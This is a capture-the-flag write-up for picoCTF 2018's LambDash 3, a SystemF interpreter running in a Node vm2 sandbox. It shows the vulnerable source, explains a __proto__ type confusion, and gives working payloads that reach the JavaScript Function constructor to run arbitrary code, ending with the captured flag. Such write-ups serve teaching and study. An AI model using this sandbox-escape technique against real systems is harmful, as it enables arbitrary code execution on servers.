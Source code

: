# LambDash 3
In this challenge we were given a site with an introduction to a variant of the Lambda Calculus language called SystemF, along with an online web shell. Link to the challange: http://2018shell2.picoctf.com:29621/

### Getting the source
First thing I did was sending an extremely large payload to the interpreter (endpoint: `/run`) to see what would happen. It returned a stack trace containing the path to the challenge files. I logged in to the picoCTF shell, zipped the whole directory, and downloaded it with scp. 

### Initial setup
We can see that this app is written in TypeScript and is running on NodeJS. I set it up locally to make exploiting and debugging easier. To do this, navigate to the directory named "problem" in source and run the following command:
```sh
tsc --build tsconfig.json && node --inspect ./dist/server.js
```

The app will be compiled and run on local port 4001. You can also debug it like any other Node app using Chromium DevTools by visiting `chrome-devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9229/<uuid>`, where <uuid> is the UUID given to you when you run the app. 

### Analysis
Okay, now we're in possession of the app's source code and the app is running locally. Let us analyze what is this app doing. If you access `/problem/src/server.ts`, you can see the source of the `/run` endpoint:
```javascript
	app.post("/run", (req, res) => {
		let code = req.body.code;
		let ast: E; 
		try {
			ast = parse(code);
		} catch (e) {
			res.send(`Error -- code did not parse<br>${e.toString()}`);
			return;
		}
		let type: Type;
		try {
			type = typecheck(ast);
		} catch (e) {
			res.send(`Error -- code did not typecheck<br>${e.toString()}`);
			return;
		}
		let vm = new vm2.NodeVM({
			timeout: 1000,
			sandbox: {
				ast,
				hidden: {
					getFlag: ((f: string) => ((x: string) => {
						if (x === "if you can get this you deserve the flag -> abcd1234!@#$%^&*()'") {
							return f;
						}
						return "Bad! " + x;
					}))(process.env.FLAG)
				},
			},
			require: {
				context: "sandbox",
				external: ["./emulator", "immutable"],
				root: __dirname,
			},
		});
		try {
			let result = vm.run(new vm2.VMScript(`
				let emulator = require("${__dirname}/emulator");
				module.exports = emulator.resToString(emulator.default(ast));
			`));
			console.log(result);
			res.send(`Result:<br>${result}:${typeToString(type)}`);
		} catch (e) {
			console.log("Wut", e.stack);
			res.send(`Error -- failed to execute<br>${e}`);
		}

	})
```
It does a few things:
* It parses the received code to get AST (abstract syntax tree)
* It checks if all types in the program are okay
* It runs the program in a Node sandbox of some kind, while also passing an object containing the function that we're interested in:
```javascript
hidden: {
	getFlag: ((f: string) => ((x: string) => {
		if (x === "if you can get this you deserve the flag -> abcd1234!@#$%^&*()'") {
			return f;
		}
		return "Bad! " + x;
	}))(process.env.FLAG)
},
```
* It prints the result of the program to the user

As such, our objective is clear: it's to submit a piece of code to /run that would run `hidden.getFlag("if you can get this you deserve the flag -> abcd1234!@#$%^&*()'")` and return the result. Easy enough, isn't it? Well, I found it everything _but_ easy, as my knowledge of both JS and functional programming is pretty much non-existent. At this point I started learning from the provided tutorial, submitting different programs, analyzing them, analyzing the code of the interpreter (located in `/problem/src/emulator.ts`), and so on. It took me about 10 hours.

### Exploitation
LC = Lambda Calculus SystemF, the language used in this task

*While writing this solution, it occurred to me that my original solution was a bit needlessly complicated and contained some redundancy. This solution is slightly more reasonable. You can find the original payload that I used to solve this task in payload_old.txt.*

There is only one bug that we need to find in order to solve this task, and everything else is its consequence.
LC has tuples and optional types, both of which are implemented as JS objects. Therefore, if you have tuple consisting of int f and int g, it will internally exist as a JS object, such as:
```javascript
{
    f: 5
    g: 10
}
```
Optional type is very similar, except there is just one variable in it. When the interpreter wants to do something with an optional type, it iterates over the possible parameter names and checks if a parameter is present in the object (`object[name] != undefined`).
Objects to be used as tuples/optionals are created using this function (you can find it in `/problem/src/emulator.ts`):
```javascript
function getCleanObject(): { [key: string]: any } {
	let obj = {};
	for (let prop of Object.getOwnPropertyNames((obj as any).__proto__)) {
		(obj as any)[prop] = undefined;
	}
	(obj as any).__proto__ = undefined;
	return obj;
}
```
_Now comes the part that I still cannot fully comprehend, some help from a NodeJS expert would be greatly appreciated._

The most important part of the solution is to figure out that this function doesn't really work. I'm not sure why, but it probably has to do with Node internals. If you create an object using `a = getCleanObject()`, it will **still have** the `__proto__` attribute, instead of having it undefined, which means you can reference `a['__proto__']`. 
Knowing that in any optional the `__proto__` attribute is always set, we can define an optional with 
```< `__proto__ { `constructor { `constructor int }} + `val int>```, 
and proceed to create a new instance of it with `val` set to a number. While processing this optional, we can tell the interpreter to look for the `__proto__` attribute first. It will of course find it, thinking that it is a tuple containing an attribute called `constructor`, which in turn is another tuple containing an attribute called `constructor`. So, by extracting it, we do something like:
```javascript
a = {}
a['__proto__']['constructor']['constructor']
```
Which gives us the JavaScript function constructor. How to do it in LC? Here's the code:
```
(alias opta = < `__proto__ { `constructor { `constructor int -> (int -> int)}} + `val int -> (int -> int)> in
(lambda argb:opta.
    case(argb) {
        `__proto__ rr -> rr#`constructor#`constructor
        | `val rr -> rr}
)(`val (lambda xx:int.lambda xxx:int.xx) as opta))
```
I changed the parameter types from int to int -> (int -> int), because we need to call this constructor, and then call the function that it returns. So now we've fooled the interpreter into thinking that the JavaScript function constructor is a lambda expression taking an int and returning another lambda expression, which in turn takes an int and returns an int. Complicated, but now we're just one step away from victory, and the question is: how to pass a string to that function?

Well, LC doesn't have strings, so we have to implement them ourselves, which was easy compared to the rest of the task.
We can use the exact same trick as before, but this time let's retrieve the String.fromCharCode method instead.
In JS that would be:
```javascript
a['__proto__']['constructor']['name']['constructor']['fromCharCode']
```
As translated to LC:
```
(alias opta = < `__proto__ { `constructor { `name { `constructor { `fromCharCode int -> int}}}} + `val int -> int> in
(lambda argb:opta.
    case(argb) {
        `__proto__ r -> r#`constructor#`name#`constructor#`fromCharCode 
        | `val r -> r
    }
)(`val (lambda x:int.x) as opta))
```
We can then call this lambda by passing an int to it, and we receive the corresponding char (which the interpreter thinks is an int).
All that's left is to concatenate those chars using a different lambda, pass the string to the function constructor, and call the result. 
Example demonstrating the construction of a two char long string:
```
(lambda a : int.
lambda b : int.
    a + b)
((alias opta = < `__proto__ { `constructor { `name { `constructor { `fromCharCode int -> int}}}} + `val int -> int> in
(lambda argb:opta.
    case(argb) {
        `__proto__ r -> r#`constructor#`name#`constructor#`fromCharCode 
        | `val r -> r
    }
)(`val (lambda x:int.x) as opta)) 65)
((alias opta = < `__proto__ { `constructor { `name { `constructor { `fromCharCode int -> int}}}} + `val int -> int> in
(lambda argb:opta.
    case(argb) {
        `__proto__ r -> r#`constructor#`name#`constructor#`fromCharCode 
        | `val r -> r
    }
)(`val (lambda x:int.x) as opta)) 66)
```
After preparing the full payload and pasting it to the site, we got the flag: picoCTF{1_white_lie_and_your_proto_gets_pwnd_4679389f}
The full payload is available in payload.txt.
